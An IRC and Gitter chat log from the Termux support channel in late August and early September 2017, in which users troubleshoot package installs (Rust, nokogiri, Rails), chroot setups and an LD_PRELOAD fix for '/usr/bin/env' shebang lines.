2017-08-31 09:48:34	freddyx	yes , i know yalp store :P

2017-08-31 09:49:43	frumpylava	wk44s: Won't work. All Termux:* apps need to be signed with the same key. Otherwise they can't access one another. If you install Termux from Play and Termux:API from fdroid it will not work. I specifically need an F-droid version of Termux:Boot to get it to run.

2017-08-31 09:50:22	wk44s	its good to know thnx

2017-08-31 09:52:10	TheFox	hi to everybody

2017-08-31 09:52:18	endre	hi

2017-08-31 09:52:25	TheFox	:)

2017-08-31 09:52:39	endre	sup

2017-08-31 09:52:49	freddyx	hi

2017-08-31 09:53:22	TheFox	i wanna ask you about some packages adn repos

2017-08-31 09:54:19	TheFox	why i can launch setoolkit only in fedora enviropment

2017-08-31 09:54:33	freddyx	how can I install arch linux env?

2017-08-31 09:54:44	TheFox	the reason is fedora eats alot of free space

2017-08-31 09:55:02	TheFox	and what about kali env?

2017-08-31 09:55:13	freddyx	how can I install arch linux env?

2017-08-31 09:55:52	frumpylava	TheFox: No one has packaged it for Termux yet.

2017-08-31 09:56:07	freddyx	pls

2017-08-31 09:56:26	TheFox	there is a pkg request on github about setoolkit there only link to fedora

2017-08-31 09:57:17	freddyx	answer to me pls

2017-08-31 09:57:21	frumpylava	freddyx, TheFox: As far as I know no one has made script for either Kali or Arch. I am only aware of chroots for Ubuntu, Fedora and Termux(within itself).

2017-08-31 09:57:32	freddyx	ok

2017-08-31 09:58:14	frumpylava	But you can look at the install scripts. It's not that hard to setup a chroot for almost any system.

2017-08-31 09:58:26	freddyx	ok perfect

2017-08-31 09:58:27	freddyx	thx

2017-08-31 09:58:39	TheFox	frumpylava: wanna correct you termux is proot

2017-08-31 09:59:26	TheFox	and anothe question

2017-08-31 09:59:35	frumpylava	yeah right.

2017-08-31 09:59:54	TheFox	can i run droidducky .sh skript?

2017-08-31 10:00:58	frumpylava	fedora is currently the only way anyone has tried to run SEToolkit, but if someone packages it, it could also work on termux. Things that work in a proot are normally fairly easy to package for termux.

2017-08-31 10:01:24	TheFox	:)

2017-08-31 10:02:05	TheFox	ive been seen some manipulations with regular terminal for android and some custom kernel

2017-08-31 10:02:16	frumpylava	TheFox: You can run droiducky.sh in termux, but you still need the custom kernel.

2017-08-31 10:03:45	TheFox	frumpylava: lets go to personal chat

2017-08-31 10:03:59	frumpylava	why?

2017-08-31 10:05:14	TheFox	frumpylava: ???

2017-08-31 11:29:17	gitter	(karanm1397) how can i solve  chmod changing permissions of operation not permitted

2017-08-31 11:31:41	gitter	(karanm1397) any one help pls

2017-08-31 11:31:48	gitter	(Techzindia) @karanm1397  In internal/external storage

2017-08-31 11:31:57	gitter	(karanm1397) internal

2017-08-31 11:32:13	gitter	(karanm1397) storage @Techzindia

2017-08-31 11:34:16	gitter	(Techzindia) Don't permission it .... Directly Open/run A file Because in Internal/external Storage files permission has Automatically Read/writeable

2017-08-31 11:35:34	gitter	(karanm1397) i get error chmod: cannot access'ngrok' : operation not permitted @Techzindia

2017-08-31 12:25:25	TheFox	hi to everybody

2017-08-31 12:25:53	TheFox	:D

2017-08-31 12:28:58	gitter	(suryapoo) Hi

2017-08-31 12:29:05	gitter	(suryapoo) Can rust be installed on termux?

2017-08-31 12:56:54	g093	@surapoo https://wiki.termux.com/wiki/Main_Page#Rust

2017-08-31 12:59:55	gitter	(suryapoo) Thanks bud!!

2017-08-31 13:00:19	gitter	(suryapoo) So what's the difference between the community repo and termux official repo

2017-08-31 13:06:03	gitter	(suryapoo) http access via libgit2 is broken on arm

2017-08-31 13:06:17	gitter	(suryapoo) Rust installs successfully but I get the above msg

2017-08-31 13:16:00	gitter	(suryapoo) cargo install ripgrep

2017-08-31 13:16:00	gitter	(suryapoo)     Updating registry `https://github.com/rust-lang/crates.io-index`

2017-08-31 13:16:00	gitter	(suryapoo) warning: spurious network error (2 tries remaining): [12/-1] invalid Content-Type: application/x-git-upload-pack-advertisement                     warning: spurious network error (1 tries remaining): [12/-1] invalid Content-Type: application/x-git-upload-pack-advertisement                     error: failed to fetch `https://github.com/rust-lang/crates.io-index`                                                                        

2017-08-31 13:16:00	gitter	(suryapoo)   [12/-1] invalid Content-Type: application/x-git-upload-pack-advertisement

2017-08-31 13:16:15	gitter	(suryapoo) Guys?

2017-08-31 13:19:20	g093	@suryapoo You can make your own repo using `termux-apt-repo`. That's one of the differences.

2017-08-31 13:20:08	gitter	(suryapoo) @g093 cool!!

2017-08-31 13:20:27	gitter	(suryapoo) Thanks and what about the above error?

2017-08-31 13:29:40	g093	@suryapoo Do you get that from its-pointless' repository?

2017-08-31 13:35:29	gitter	(suryapoo) @TermuxBot  yess

2017-08-31 13:45:57	g093	@suryapoo Seems to work on aarch64.

2017-08-31 13:48:14	gitter	(suryapoo) Ummmmm. ..not working on arm7

2017-08-31 13:49:04	g093	@suryapoo Made hello World nicely on aarch64

2017-08-31 13:49:45	gitter	(suryapoo) Ummmmm..

2017-08-31 13:49:55	gitter	(suryapoo) Any progress with Haskell?

2017-08-31 13:50:08	g093	Are you sure you are using the deb from its-pointless' repository?

2017-08-31 13:53:28	g093	https://wiki.termux.com/wiki/Main_Page#Haskell

2017-08-31 14:03:35	TheFox	8-)

2017-08-31 20:59:28	gitter	(edyagi) hiyall (or aloha from hawaii), ive been starting to dive into termux, and been mulling over cool things to do with it, ive seen the api addon that can access some of the androids features, is there a method to gather some of bluetooth data/connection etc?

2017-08-31 22:16:45	gitter	(suryapoo) Morning!!!!

2017-08-31 22:17:05	gitter	(suryapoo) Couldn't find anything for Haskell @TermuxBot

2017-08-31 22:17:20	gitter	(parkerlreed) Dear lord the Gitter notification sound scared the crap out of me :D

2017-08-31 22:17:29	gitter	(suryapoo) Hahahahaha

2017-08-31 22:17:43	gitter	(parkerlreed) How's it going

2017-08-31 22:18:01	gitter	(suryapoo) Pretty cool man

2017-08-31 22:18:03	gitter	(suryapoo) Wbu

2017-08-31 22:18:34	gitter	(parkerlreed) Not too bad

2017-08-31 22:18:50	gitter	(parkerlreed) Chilling out with my RTLSDR listening to some HD radio heh

2017-08-31 22:19:39	gitter	(suryapoo) Coool

2017-08-31 22:45:45	g093	@suryapoo Not much for Haskell at https://wiki.termux.com/wiki/Main_Page#Haskell that's true. How is rustc coming along?

2017-08-31 22:47:58	gitter	(suryapoo) @TermuxBot ..the same error man..

2017-08-31 23:16:46	g093	Eagles - Take It Easy - ( Alta Calidad ) HD-IDdjZWn8l3g.mkv

2017-08-31 23:16:46	g093	$ play-audio youtube/eagles/Eagles\ -\ Hotel\ California\ \(Live.\ At\ The\ Capital\ Centre\,\ 1977\)-R80Q_FQGKj4.mkv

2017-08-31 23:17:17	g093	how do u like play-audio?

2017-09-01 00:21:11	gitter	(prinxy) My Termux keeps quitting by itself when I minimize it on my phone, is there a way I can reset that so it stays running when minimized?

2017-09-01 01:04:58	gitter	(sdrausty) @prinxy Try `termux-wake-lock`

2017-09-01 01:16:10	timwr	where are the files in bootstrap-aarch64.zip built?

2017-09-01 01:26:04	live_the_dream	i think fornwall uses s script

2017-09-01 02:12:46	gitter	(prinxy) @sdrausty Thanks, error solved

2017-09-01 02:25:19	timwr	which script?

2017-09-01 02:26:02	live_the_dream	dunno

2017-09-01 03:07:47	timwr	I'm guessing it's termux-packages but I can't see where

2017-09-01 13:41:31	gitter	(Techzindia) can Anyone Solve This gem issue 😑😑

2017-09-01 14:07:52	freddyx	+1

2017-09-01 14:08:07	freddyx	gem is bugged xd

2017-09-01 15:12:41	termuxfan	I want to ssh into termux, but how I get my ssh key out of termux?

2017-09-01 15:14:03	ux	termuxfan: https://termux.com/ssh.html

2017-09-01 15:19:17	termuxfan	so I would put in my /android/data/com.termux/files ?

2017-09-01 16:42:39	g093_	kuu./()z

2017-09-01 16:42:50	g093_	k'!7?*?@?

2017-09-01 16:42:51	g093_	k

2017-09-01 18:31:07	live_the_dream	grimler lapack-dev is there for completeness sake

2017-09-01 19:00:05	live_the_dream	its  not in my repo anymore anyway i don;t think

2017-09-02 00:45:55	g093	20 warnings and 3 errors generated.                                                                         make[1]: *** [Makefile:180: commands2.o] Error 1                                                            make[1]: Leaving directory '/home/tmp/bitchx-1.2.1/source'                                                  make: *** [Makefile:196: BitchX] Error 2

2017-09-02 00:46:42	g093	on device in Termux any advice?

2017-09-02 00:47:58	g093	To replicate these warnings and errors on device download BithchX from sourceforge

2017-09-02 00:48:56	g093	tar xfv /sdcard/Download/bitchx-1.2.1.tar.gz

2017-09-02 00:49:04	g093	termux-chroot

2017-09-02 00:49:54	g093	cd bi[TAB][TAB] +enter/return

2017-09-02 00:50:58	g093	./conf[TAB] +enter/return

2017-09-02 00:51:06	g093	make

2017-09-02 00:54:45	gitter	(sdrausty) I get the same error g093:

2017-09-02 02:56:02	kr1shna	i have 1 irc server in each session, i mean there are 2 sessions, i activated wake lock, after half an hour, it resets to default session, there is no icon in notification, i am on termux .53,(

2017-09-02 02:56:39	kr1shna	do we have open issue about crash reporting of app

2017-09-02 02:57:05	kr1shna	where can i find app logs ?

2017-09-02 05:04:46	gitter	(freakmac) !

2017-09-02 11:29:15	TheFox	hi

2017-09-02 11:33:17	gitter	(suryapoo) Hi

2017-09-02 11:33:18	gitter	(suryapoo) Guys

2017-09-02 11:33:32	gitter	(suryapoo) Anyone successfully running rails on termux?

2017-09-02 12:37:13	TheFox	-====-----==------=====---==---=-----==---------==--=----==-----==---=---=

2017-09-02 12:37:33	TheFox	=-=------===-------==-======-===--------==---=

2017-09-02 12:39:51	gitter	(suryapoo)  What's that @TermuxBot  :D

2017-09-02 13:01:01	gitter	(sdrausty) @suryapoo Do you mean http://rubyonrails.org ?

2017-09-02 13:02:47	gitter	(suryapoo) Yessssssss

2017-09-02 13:05:02	gitter	(sdrausty) @suryapoo Did you follow instructions at http://guides.rubygems.org/rubygems-basics/

2017-09-02 13:05:04	gitter	(sdrausty) ?

2017-09-02 13:06:33	gitter	(suryapoo) @sdrausty ..yea..but is it working on termux?

2017-09-02 13:06:57	gitter	(suryapoo) And how do I use apkbuilder dude?.

2017-09-02 13:07:07	gitter	(sdrausty) 😙😉 Did you try to install it?

2017-09-02 13:07:41	gitter	(sdrausty) @suryapoo which apkbuilder?

2017-09-02 13:09:18	gitter	(sdrausty) Look @suryapoo it doesn't make any difference if it works on my device. What matters is does it work on your device?

2017-09-02 13:10:19	gitter	(suryapoo) I'll try sir,Sdrausty Sir ;)

2017-09-02 13:10:42	gitter	(suryapoo) Your github repo to build apks man

2017-09-02 13:11:35	g093	Does anyone know how to check IP address from inside Termux?

2017-09-02 13:11:44	g093	address *addresses

2017-09-02 13:12:29	gitter	(suryapoo) ifconfig

2017-09-02 13:13:09	gitter	(sdrausty) @suryapoo Do you have any questions regarding https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice ?

2017-09-02 13:13:46	gitter	(suryapoo) Yessssssss

2017-09-02 13:13:54	g093	tnx @suryapoo :)

2017-09-02 13:13:57	gitter	(suryapoo) It built the moon apk

2017-09-02 13:14:09	gitter	(suryapoo) Anytime mate @TermuxBot

2017-09-02 13:14:33	gitter	(suryapoo) But how do I build my own apks @Mohammed90

2017-09-02 13:14:45	gitter	(suryapoo) @sdrausty

2017-09-02 13:14:49	gitter	(suryapoo) *

2017-09-02 13:15:05	gitter	(sdrausty) @suryapoo I was so amazed when it 🌟 started building on device in Termux.

2017-09-02 13:15:45	gitter	(suryapoo) Can imagine the excitement @sdrausty

2017-09-02 13:16:36	gitter	(sdrausty) @suryapoo by your own APKs, you mean?

2017-09-02 13:16:38	gitter	(suryapoo) I'm such a kiddo.. I get excited when I type a shell command like ls and termux gives me the result :)

2017-09-02 13:16:52	gitter	(sdrausty) So do I....

2017-09-02 13:17:33	gitter	(suryapoo) :)

2017-09-02 13:18:38	gitter	(suryapoo) So... Can I build custom apks from your tool?

2017-09-02 13:18:42	gitter	(sdrausty) I really like making shortcuts, like

2017-09-02 13:19:06	gitter	(sdrausty) https://sdrausty.github.io/au

2017-09-02 13:19:55	gitter	(suryapoo) @sdrausty sure.. Will try that out

2017-09-02 13:20:06	gitter	(sdrausty) @suryapoo When you built moon.apk on device in Termux, you built a custom APK on device!

2017-09-02 13:21:00	gitter	(suryapoo) @sdrausty yea!!!! But can I build one with my Java code inside it

2017-09-02 13:21:56	gitter	(sdrausty) Do you like 🌒 moon.apk? I mean, does it show 🌒 Moon time correctly for you?

2017-09-02 13:24:28	gitter	(sdrausty)

2017-09-02 13:24:28	gitter	(sdrausty) @suryapoo Of course, that's one of the primary reasons for https://sdrausty.github.io/buildAPKs/ So you can build custom made APKs on device in a flash, and at your leisure too.

2017-09-02 13:25:32	gitter	(suryapoo) @sdrausty great!!!!!!!

2017-09-02 13:25:53	gitter	(suryapoo) Hope to see you build more awesome scripts

2017-09-02 13:28:11	gitter	(sdrausty) @suryapoo Can't wait to see your APKs.

2017-09-02 13:29:09	gitter	(sdrausty) @suryapoo How's you`gem` 😙😉 install question coming along?

2017-09-02 13:29:42	gitter	(suryapoo) Installing nokogiri :)

2017-09-02 13:29:56	gitter	(suryapoo) I just hope it works

2017-09-02 13:30:06	gitter	(Hax4us) Therubyracer is giving error why

2017-09-02 13:30:12	gitter	(suryapoo) Taken a liking towards Ruby lately

2017-09-02 13:30:26	gitter	(sdrausty) https://wiki.termux.com/wiki/Main_Page#Ruby_package_management

2017-09-02 13:31:16	gitter	(sdrausty) @suryapoo Try it again in `termux-chroot` please.

2017-09-02 13:36:31	gitter	(sdrausty) "Hope to see you build more awesome scripts": I want a 😘 little help at https://github.com/sdrausty/buildAPKs/issues/3 Gradle Builds Usually Fail Using buildAPKs

2017-09-02 13:37:53	gitter	(sdrausty) I managed to get Termux 💪🙂 and a few other build.gradle builds to build on device in Termux 💪🙂, but it is a lot of work....

2017-09-02 13:40:25	gitter	(suryapoo) make failed, exit code 2

2017-09-02 13:40:25	gitter	(suryapoo)

2017-09-02 13:40:25	gitter	(suryapoo) Gem files will remain installed in

2017-09-02 13:40:25	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59aaed09614889d475b3b466]

2017-09-02 13:40:41	gitter	(suryapoo) Error exile installing rails

2017-09-02 13:46:34	gitter	(sdrausty) Building native extensions.  This could take a while...

2017-09-02 13:47:38	gitter	(suryapoo)  You are installing?

2017-09-02 13:47:52	gitter	(sdrausty) $ play-audio Uriah\ Heep\ -\ Lady\ in\ black-hHDZ5rYiMz0.mkv and listening...

2017-09-02 13:48:12	gitter	(sdrausty) Space on device issue...

2017-09-02 13:48:28	gitter	(sdrausty) https://github.com/termux/termux-packages/issues/1176

2017-09-02 13:49:09	gitter	(sdrausty) Still: Fetching: nokogiri-1.8.0.gem (100%)

2017-09-02 13:49:10	gitter	(sdrausty) Building native extensions.  This could take a while...

2017-09-02 13:56:07	gitter	(sdrausty) @suryapoo Why do you want to build nokogiri ?

2017-09-02 13:57:16	gitter	(sdrausty) extconf failed, exit code 1

2017-09-02 13:58:07	gitter	(sdrausty) https://github.com/termux/termux-packages/issues?utf8=✓&q=giri

2017-09-02 13:59:10	gitter	(sdrausty) @suryapoo You probably should post this as a new issue.

2017-09-02 14:00:48	gitter	(sdrausty) :  Error installing nokogiri:

2017-09-02 14:00:48	gitter	(sdrausty)         ERROR: Failed to build gem native extension.

2017-09-02 14:00:51	gitter	(sdrausty) ERROR

2017-09-02 14:01:26	gitter	(sdrausty) gem install nokogiri -- --use-system-libraries

2017-09-02 14:01:26	gitter	(sdrausty)         [--with-xml2-config=/path/to/xml2-config]

2017-09-02 14:01:26	gitter	(sdrausty)         [--with-xslt-config=/path/to/xslt-config]

2017-09-02 14:01:26	gitter	(sdrausty) [full message: https://gitter.im/termux/termux?at=59aaf1f69acddb2407f6bc09]

2017-09-02 14:02:06	gitter	(sdrausty) bundle config build.nokogiri

2017-09-02 14:02:26	gitter	(sdrausty) Settings for `build.nokogiri` in order of priority. The top value will be used

2017-09-02 14:02:26	gitter	(sdrausty) You have not configured a value for `build.nokogiri` ?

2017-09-02 14:02:57	gitter	(sdrausty) gem install nokogiri -- --use-system-libraries

2017-09-02 14:03:19	gitter	(sdrausty) Building native extensions with: '--use-system-libraries'

2017-09-02 14:03:19	gitter	(sdrausty) This could take a while...

2017-09-02 14:08:33	gitter	(suryapoo) bin/rails server

2017-09-02 14:08:33	gitter	(suryapoo) bash: bin/rails: /usr/bin/env: bad interpreter: No such file or directory

2017-09-02 14:08:33	gitter	(suryapoo) $ /bin/rails server

2017-09-02 14:08:33	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59aaf3a1b16f264642fbbcb1]

2017-09-02 14:14:38	gitter	(suryapoo) /bin/rails server

2017-09-02 14:14:39	gitter	(suryapoo) bash: /bin/rails: No such file or directory

2017-09-02 14:14:39	gitter	(suryapoo) $ cd bin

2017-09-02 14:14:39	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59aaf50ebac826f05472f46e]

2017-09-02 14:17:47	gitter	(sdrausty) $ gem install nokogiri -- --use-system-libraries

2017-09-02 14:17:47	gitter	(sdrausty) Building native extensions with: '--use-system-libraries'

2017-09-02 14:17:47	gitter	(sdrausty) This could take a while...

2017-09-02 14:17:47	gitter	(sdrausty) [full message: https://gitter.im/termux/termux?at=59aaf5ca9acddb2407f6cb38]

2017-09-02 14:18:29	gitter	(sdrausty) $ nokogiri -h

2017-09-02 14:18:30	gitter	(sdrausty) Nokogiri: an HTML, XML, SAX, and Reader parser

2017-09-02 14:18:30	gitter	(sdrausty) Usage: nokogiri <uri|path> [options]

2017-09-02 14:18:30	gitter	(sdrausty) [full message: https://gitter.im/termux/termux?at=59aaf5f566c1c7c4770af560]

2017-09-02 14:21:21	gitter	(sdrausty) @suryapoo `$termux-chroot` then `$ gem install nokogiri -- --use-system-libraries` should build on your device too.

2017-09-02 14:25:24	gitter	(suryapoo) Cool

2017-09-02 14:50:07	TheFox	hi to evrbdy

2017-09-02 14:50:54	u93	hello :)

2017-09-02 16:34:25	u93	play-audio Emerson\,\ Lake\ \&\ Palmer\ -\ Lucky\ Man-89g1P_J40JA.mkv [youtube] 4fWyzwo1xg0: Downloading video info webpage...

2017-09-02 16:34:47	u93	dvr in mi'pokket

2017-09-02 16:37:33	rkeene	I submitted a small PR (termux-packages/PR#1340) to fix Fossil in Termux.  Please let me know if anything else needs to be done.  Thanks.

2017-09-02 16:38:42	u93	rkeene: Thank you for bringing Fossil to Termux;)

2017-09-02 16:39:39	u93	What is Fossil made to achieve, please?

2017-09-02 16:40:49	gitter	(sdrausty) https://github.com/termux-packages/PR/issues/1340 404! 😐🙄😴

2017-09-02 16:41:16	rkeene	u93, Fossil was already part of Termux, I just submitted a small fix (where Fossil calls /bin/sh).  Fossil is a distributed version control system, similar to Bazaar (bzr), Mercurial (hg), Git (git), Monotone (mtn), DARCS (darcs), TLo      ~.

2017-09-02 16:41:32	rkeene	    

2017-09-02 16:41:32	rkeene	c

2017-09-02 16:41:35	rkeene	Hmm

2017-09-02 16:41:51	rkeene	u93, Fossil was already part of Termux, I just submitted a small fix (where Fossil calls /bin/sh).  Fossil is a distributed version control system, similar to Bazaar (bzr), Mercurial (hg), Git (git), Monotone (mtn), DARCS (darcs), Tom Lords Arch.. (tla), etc

2017-09-02 16:41:57	rkeene	sdrausty, https://github.com/termux/termux-packages/pull/1340

2017-09-02 16:42:46	gitter	(sdrausty) rkeene: Thank you. Works 😶

2017-09-02 16:44:47	u93	$ play-audio Simon\ \&\ Garfunkel\ -\ The\ Sounds\ of\ Silence\ \(Audio\)-4fWyzwo1xg0.webm

2017-09-02 16:46:37	u93	dvr in mi'pokket Thank u:)

2017-09-02 16:52:15	u93	$ play-audio The\ Jimi\ Hendrix\ Experience\ -\ Hey\ Joe\ \(Official\ Audio\)-rXwMrBb2x1Q.mkv

2017-09-02 16:54:38	gitter	(sdrausty) Works 😶 *Link works 😶

2017-09-02 17:37:46	rods-tab3	micro sdxc 400GB $250    https://www.computerworld.com/article/3221361/mobile-wireless/new-sandisk-microsd-card-enables-an-app-speed-boost-for-android-users.html

2017-09-02 17:51:53	gitter	(sdrausty)

2017-09-02 17:51:53	gitter	(sdrausty) We're sorry but SanDisk Ultra® microSDXC UHS-I Card with Adapter - 400GB (A1)(C10) is currently out of stock and cannot be added to your cart. We apologize for any inconvenience.

2017-09-02 17:52:44	rods-tab3	is that everywhere ?

2017-09-02 17:52:52	gitter	(sdrausty) https://www.bestbuy.com/site/sandisk-ultra-plus-256gb-microsdxc-uhs-i-memory-card-gray-red/5799901.p?skuId=5799901 $200USD

2017-09-02 17:55:12	gitter	(sdrausty) rods-tab3: from https://www.sandisk.com/home/memory-cards/microsd-cards/ultra-microsd-400gb

2017-09-02 18:01:49	rods-tab3	yea they just announced it a few days ago

2017-09-02 18:05:49	rods-tab3	saw google still advertising that fake 512 GB sdHc card for $59 -- they should be in jail

2017-09-02 18:09:14	rkeene	Anyone considered making the Termux libc understand execve("/usr/bin/env", ...) to mean "$PREFIX/usr/bin/env" ?

2017-09-02 18:12:43	rkeene	Or does it use bionic ?  In which case, additionally linking to something that provides a newer execve() that's not weakly defined

2017-09-02 18:26:37	rkeene	A simple LD_PRELOAD test shows that it works

2017-09-02 18:27:52	rkeene	Though not with hash-bang lines :-(

2017-09-02 18:38:43	rkeene	(Since the kernel handles that)

2017-09-02 18:39:24	rkeene	So, I guess I can read the file and determine if the kernel would do that

2017-09-02 18:53:13	gitter	(sdrausty) rods-tab3: https://www.walmart.com/ip/Ultra-microSD-UHS-I-Card/447867745 $190.47USD

2017-09-02 18:54:59	gitter	(sdrausty) 2-Day Shipping

2017-09-02 18:58:07	gitter	(sdrausty) rkeene: What exactly are you trying to do with`env`🤔 It seems to understand `termux-chroot` okay.

2017-09-02 18:59:03	rkeene	termux-chroot ?

2017-09-02 18:59:22	rkeene	sdrausty, I just want to be able to run scripts that have /usr/bin/env in their hash-bang line, unmodified

2017-09-02 19:01:01	gitter	(sdrausty) https://duckduckgo.com/?q=compressed+disk+in+file+linux 🤔

2017-09-02 19:01:20	gitter	(sdrausty) https://github.com/termux/termux-packages/issues/1176

2017-09-02 19:03:39	rkeene	Seems like it requires root, and getting up a whole distribution ?

2017-09-02 19:13:13	gitter	(sdrausty) No, I don't believe it does. At present, yes it requires root in Termux 💪🙂, but it shouldn't. This issue is fairly simple in Linux: create file of a specific GB size > format filesystem in file > mount filesystem in file via loop device nonroot.

2017-09-02 19:14:10	gitter	(sdrausty) We can create filesystemimage in file today in Termux, without rooting.

2017-09-02 19:14:30	gitter	(sdrausty) https://github.com/termux/termux-app/issues/375

2017-09-02 19:19:44	rkeene	Right, all that is fine -- but chroot'ing requires root

2017-09-02 19:29:43	BrainDamage	you can use proot

2017-09-02 19:29:51	BrainDamage	which doesn't require root

2017-09-02 19:30:04	BrainDamage	but what you can't do, is mount as user without fuse

2017-09-02 19:31:04	rkeene	This simple LD_PRELOAD seems simpler

2017-09-02 19:35:59	gitter	(sdrausty) Debian Noroot might have the source code to close this issue. It appears to mount an image from a file using https://github.com/pelya/fakechroot

2017-09-02 19:36:18	gitter	(sdrausty) https://github.com/termux/termux-app/issues/376

2017-09-02 19:36:36	gitter	(sdrausty) Feature Request: `mount loopback device` #376

2017-09-02 19:40:55	g093	$ termux-chroot

2017-09-02 19:41:25	g093	$ cat README

2017-09-02 19:41:47	g093	$ ./autogen.sh

2017-09-02 19:43:24	g093	$./configure

2017-09-02 19:46:32	rkeene	proot is using ptrace ?

2017-09-02 19:48:07	rkeene	Either way, this LD_PRELOAD is pretty trivial and does the job

2017-09-02 19:55:31	g093	$make

2017-09-02 19:56:26	g093	rkeene: I am not using proot. Can proot mount loop device?

2017-09-02 19:56:36	BrainDamage	ofc not

2017-09-02 19:59:24	rkeene	http://chiselapp.com/user/rkeene/repository/termux-env/artifact?ln=on&name=e1a642d08983c542

2017-09-02 20:00:42	rkeene	(Basic version, just always uses "bash")

2017-09-02 20:04:09	rkeene	Better: http://chiselapp.com/user/rkeene/repository/termux-env/artifact?ln=on&name=50fc1bfd4658a03c

2017-09-02 20:05:10	BrainDamage	if you use proot you gain the advantage of having unix-like paths

2017-09-02 20:05:26	BrainDamage	so the adv is not limited to shebangs and env

2017-09-02 20:05:38	BrainDamage	for a small perf penalty

2017-09-02 20:05:46	rkeene	This *ONLY* addresses /usr/bin/env with no other penalty

2017-09-02 20:06:29	rkeene	http://www.rkeene.org/viewer/tmp/termux-env.txt.htm

2017-09-02 20:07:15	BrainDamage	i got that, i would still personally use proot because it fixes the shebang and several other things

2017-09-02 20:10:17	rod-yolo	[16:50] (rods-tab3) https://www.futuremark.com/hardware/mobile  https://www.futuremark.com/

2017-09-02 23:53:37	gitter	(suryapoo) irb

2017-09-02 23:53:37	gitter	(suryapoo) irb(main):001:0> (1..6)

2017-09-02 23:53:37	gitter	(suryapoo) => 1..6

2017-09-02 23:53:37	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59ab7cc1bac826f05474b0b3]

2017-09-02 23:53:54	gitter	(suryapoo) Y is the range method working?

2017-09-03 06:16:04	Grimler	quit

2017-09-03 11:27:12	TheFox	hi

2017-09-03 12:03:43	gitter	(masterkorp) Hello

2017-09-03 12:04:22	monkey_	so, erm, is there a way to run vi as root or am i forever reduced to using nano?

2017-09-03 12:04:32	gitter	(masterkorp) Do you guys ever used termux as send location emergency guide?

2017-09-03 12:04:53	gitter	(masterkorp) mon

2017-09-03 12:05:08	gitter	(masterkorp) Why cant you use vim as root?

2017-09-03 12:05:32	gitter	(masterkorp) monkey_:

2017-09-03 12:05:42	monkey_	i only typed vi out of habit... i'll see if vim works

2017-09-03 12:07:28	gitter	(masterkorp) Also, just do save yourself some trouble and run `apt install neovim`

2017-09-03 12:08:52	monkey_	okay... i just hate syntax highlighting and i'm too lazy to turn it off so i've always just used vi since i learned how to use it in uni

2017-09-03 12:09:16	gitter	(masterkorp) What cool fancy scripts have you been doing lately with termux?

2017-09-03 12:09:50	gitter	(masterkorp) monkey_:  just disable it on your vimrc?

2017-09-03 12:11:06	monkey_	it's kinda hard to have the rc if one never runs vim... but thanks for the help.

2017-09-03 12:11:28	monkey_	nvim looks nice; i'll have to read the manpages for it

2017-09-03 14:20:22	fornwall	rkeene: overriding execve() to fix shebangs sounds really interesting

2017-09-03 17:02:17	live_the_dream	fornwall: ncursesw6-config doesn't work has references to /bin/sh ... its been like that for a while nothing to do with latest update

2017-09-03 17:07:00	Church-	Heya rkeene

2017-09-03 17:07:11	Church-	It always a

2017-09-03 17:07:28	Church-	amuses me the cross chatter I see between channels.*

2017-09-03 17:16:23	msuriar	greetings. does anyone know of a workaround for https://github.com/termux/termux-app/issues/250 other than "set up and SSH daemon and SSH over localhost"?

2017-09-03 17:16:31	msuriar	that's... really rather irritating.

2017-09-03 17:22:55	rkeene	fornwall, It's pretty easy

2017-09-03 17:22:58	rkeene	Church-, Howdy

2017-09-03 17:23:02	rkeene	Church-, Which other channel ?

2017-09-03 17:23:11	Church-	R-sysadmin

2017-09-03 17:23:13	rkeene	Ah

2017-09-03 17:23:16	Church-	Eyep.

2017-09-03 17:23:39	Church-	Ever go anywhere with that twist of zfs you were noodling with?

2017-09-03 17:24:11	rkeene	Church-, I haven't had a chance to do anything with it yet

2017-09-03 17:24:29	Church-	Ahhhh. Fun.

2017-09-03 17:25:01	Church-	Aye, work has rather stalled most of my pet projects. Getting to work through Schreiner's book at least.

2017-09-03 17:25:06	rkeene	(It's cooler because it's distributed and replicating, but a similar datastructure used -- merkle tree -- but it's not a block-backed FS)

2017-09-03 17:25:56	rkeene	fornwall, It could be linked to programs that use execve() to make it just-work, or provided as a header

2017-09-03 17:27:08	Church-	Ahhhhh. Neat.

2017-09-03 17:28:26	rkeene	It also uses another cool structure, the extended-HAT

2017-09-03 17:30:02	live_the_dream	rkeene: that is interesting

2017-09-03 17:32:17	rkeene	live_the_dream, Which one ?

2017-09-03 17:32:36	rkeene	http://chiselapp.com/user/rkeene/repository/termux-env/artifact?ln=on&name=50fc1bfd4658a03c  ?

2017-09-03 17:33:50	live_the_dream	fixing shebang

2017-09-03 17:34:40	rkeene	Yeah, it's working great

2017-09-03 17:34:49	rkeene	http://chiselapp.com/user/rkeene/repository/termux-env/home

2017-09-03 17:42:04	live_the_dream	just tested making it do /bin/sh  and it fixed ncurses config

2017-09-03 17:43:33	live_the_dream	im going to try and break it :)

2017-09-03 17:44:29	rkeene	It's just implementing how the kernel handles execve() for hash-bang stuff, so...

2017-09-03 17:45:02	rkeene	I added what I have in my ~/.bash_profile to the "/home" page above, so it re-execs bash with that preloaded into bash

2017-09-03 17:46:26	live_the_dream	yeah i exported LD_PRELOAD=execv.so in zsh

2017-09-03 17:46:49	rkeene	You also have to START zsh with it set, so zsh sees it

2017-09-03 17:51:58	Church-	What error did this fix?

2017-09-03 17:52:18	rkeene	Church-, Scripts that use #! /usr/bin/env

2017-09-03 17:52:23	rkeene	(Without any performance impact)

2017-09-03 17:52:28	Church-	Ahhhhh.

2017-09-03 17:52:56	Church-	I'm so used to do hardcoding what executable I use I forgot about that.

2017-09-03 17:54:35	rkeene	I have a bunch of existing scripts I use on every platform

2017-09-03 17:55:24	Church-	Aye. Got a couple I should fix up I usually carry around.

2017-09-03 17:56:59	Church-	Hmm

2017-09-03 17:57:18	Church-	Might grab a droid4 as a little backup phone. Should be enough for me with termux.

2017-09-03 18:16:05	rkeene	live_the_dream, How's it going ?

2017-09-03 18:30:41	live_the_dream	not tried yet had to do some other stuff

2017-09-03 18:38:58	live_the_dream	seems to function fine

2017-09-03 18:39:20	rkeene	Yep

2017-09-03 18:39:23	rkeene	It's real simple

2017-09-03 18:39:24	live_the_dream	hmm could add it to termux-app

2017-09-03 18:40:59	Church-	So you lot hear about solaris?

2017-09-03 18:42:10	rkeene	Yes

